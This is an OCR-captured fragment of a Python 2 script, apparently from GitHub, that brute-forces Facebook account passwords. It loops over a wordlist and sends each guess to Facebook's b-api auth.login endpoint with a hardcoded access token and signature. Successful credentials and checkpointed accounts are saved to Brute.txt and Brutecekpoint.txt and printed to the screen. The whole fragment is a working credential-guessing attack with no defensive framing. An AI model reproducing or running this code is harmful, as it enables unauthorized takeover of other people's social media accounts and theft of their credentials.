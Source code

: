             jalan('\033[1;97m[\xe2\x9c\xba] \033[1;97mPlease wait \033[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[1;97m[\033[1;97m\xe2\x9c\xb8\033[1;97m] \033[1;97mTry \033[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\033[1;97m[+] \033[1;97mFounded.'
                        print 52 * '\033[1;97m\xe2\x95\x90'
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                        print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\033[1;97m[+] \033[1;97mFounded.'
                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"
                            print '\033[1;97m[!] \033[1;97mAccount Maybe Checkpoint'
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\033[1;97m[!] Connection Error'
                    time.sleep(1)

        except IOError:
            print '\033[1;97m[!] File not found...'
            print """\n\033[1;97m[!] \033[1;97mLooks like you don't have a wordlist"""
            super()

if __name__ == '__main__':
	login()
